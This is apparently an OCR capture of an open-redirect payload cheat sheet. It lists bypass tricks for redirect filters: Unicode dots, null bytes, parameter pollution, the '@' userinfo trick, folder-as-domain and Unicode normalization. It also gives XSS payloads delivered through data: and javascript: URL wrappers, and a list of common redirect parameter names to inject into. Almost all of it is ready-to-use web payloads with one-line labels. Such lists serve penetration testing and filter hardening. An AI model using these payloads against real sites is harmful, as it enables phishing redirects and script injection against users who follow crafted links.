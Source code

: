 ```html
//google%E3%80%82com

```
Using null byte "%00" to bypass blacklist filter
```html
//google%00.com

```
Using parameter pollution
```html
?next=whitelisted.com&next=google.com

```
Using "@" character, browser will redirect to anything after the "@"
```html
http://www.theirsite.com@yoursite.com/

```
Creating folder as their domain
```html
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com

```
Using "?" characted, browser will translate it to "/?"
```html
http://www.yoursite.com?http://www.theirsite.com/
http://www.yoursite.com?folder/www.folder.com

```
Host/Split Unicode Normalization
```html
https://evil.c℀.example.com . ---> https://evil.ca/c.example.com
http://a.com／X.b.com

```
XSS from Open URL - If it's in a JS variable
```html
";alert(0);//

```
XSS from data:// wrapper
```html
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==

```
XSS from javascript:// wrapper
```html
http://www.example.com/redirect.php?url=javascript:prompt(1)

```
## Common injection parameters
```html
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
```